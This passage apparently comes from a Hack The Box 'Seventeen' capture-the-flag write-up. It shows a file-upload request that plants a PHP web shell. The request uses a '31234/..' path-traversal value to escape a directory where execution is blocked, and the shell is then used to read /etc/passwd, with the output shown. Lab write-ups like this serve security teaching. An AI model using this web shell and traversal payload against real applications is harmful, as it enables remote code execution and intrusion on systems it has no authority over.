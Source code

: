 ```php
$location = "files/".$stud_no."/".$file_name;
```

PHP execution is blocked on `/files/31234` but works one level above:

```
POST /oldmanagement/save_file.php HTTP/1.1
Host: seventeen.htb:8000
Content-Length: 575
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seventeen.htb:8000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi7lj1fWTmB44AgH8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://seventeen.htb:8000/oldmanagement/student_profile.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c8b0b5a6a0c7bb5fc8cfbddd711d57ed
Connection: close

------WebKitFormBoundaryi7lj1fWTmB44AgH8
Content-Disposition: form-data; name="file"; filename="ws.php"
Content-Type: application/x-php

<html>
<body>
<b>Remote code execution:</b><br>
<pre>
    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
</pre>
</body>
</html>

------WebKitFormBoundaryi7lj1fWTmB44AgH8
Content-Disposition: form-data; name="stud_no"

31234/..
------WebKitFormBoundaryi7lj1fWTmB44AgH8
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryi7lj1fWTmB44AgH8--
```

And then `http://seventeen.htb:8000/oldmanagement/files/ws.php?cmd=cat%20/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```

[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png